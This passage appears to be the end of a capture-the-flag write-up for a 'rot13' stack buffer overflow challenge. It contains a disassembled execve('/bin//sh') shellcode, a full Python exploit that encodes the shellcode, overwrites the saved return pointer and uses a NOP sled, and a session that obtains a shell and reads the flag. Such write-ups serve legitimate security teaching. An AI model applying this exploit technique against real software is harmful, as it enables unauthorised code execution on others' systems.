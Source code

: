 I padded the shellcode with a NOP sled (0x9d - 0xd = 0x90) so that main() returns relatively close to the shellcode. So does it work now? No! The shellcode executes but once it gets to the "int 80" instruction, it fails. Here's our shellcode:

```text
   0x804a07a <tmp+26>:  xor    ecx,ecx
   0x804a07c <tmp+28>:  add    al,0xe1
   0x804a07e <tmp+30>:  mov    al,0xb
   0x804a080 <tmp+32>:  push   ecx
   0x804a081 <tmp+33>:  push   0x68732f2f
   0x804a086 <tmp+38>:  push   0x6e69622f
   0x804a08b <tmp+43>:  mov    ebx,esp
   0x804a08d <tmp+45>:  int    0x80
```

Right when it executes, EAX has the value 0x100. After it executes tmp+30, we expect EAX to be 0xb (sys_execve), but instead it's 0x10b which is an invalid system call. 0x100 is 255 in decimal, so it's probably the return value of strlen when it calculates the length of our "A"s. 

Subtracting 1 from our string of "A"s and adding 1 to our string of "B"s will change EAX to 0xff so that "mov al,0xb" will set EAX to 0xb. Our final exploit: 

```python
#!/usr/bin/env python
import sys

sc = "\x31\xc9\x04\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
enc_sc = ""

for i in sc:
    c = int(ord(i))
    c += 13
    enc_sc += chr(c)

buf = "" 
buf += "A"*253 + "\n"                        # write enough bytes to fill the buffer
buf += "\x0d"                                # null terminate the string to fool strlen()
buf += "B"*13                                # padding to overwrite saved return pointer
buf += "\x6d\xad\x11\x15" + "\n"             # location of our NOP sled and shellcode
buf += "\x9d"*30 + enc_sc + "C"*250 + "\n"   # NOP sled and shellcode

sys.stdout.write(buf)
```

Let's try it on the server:

```text
a9895@tjctf-shell:~$ (./sploit.py ; cat) | /problems/rot13/rot13 
ROT13-ATOR
Input strings. Send an empty newline to end.
Buffer is full, ending.
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN

id
uid=1152(a9895) gid=1790(a9895) egid=1611(rot13) groups=1611(rot13),1640(ctfusers),1790(a9895)
cat /problems/rot13/flag
2ROT13be5tc1ph3r
```

After all that, we finally got the flag: 2ROT13be5tc1ph3r

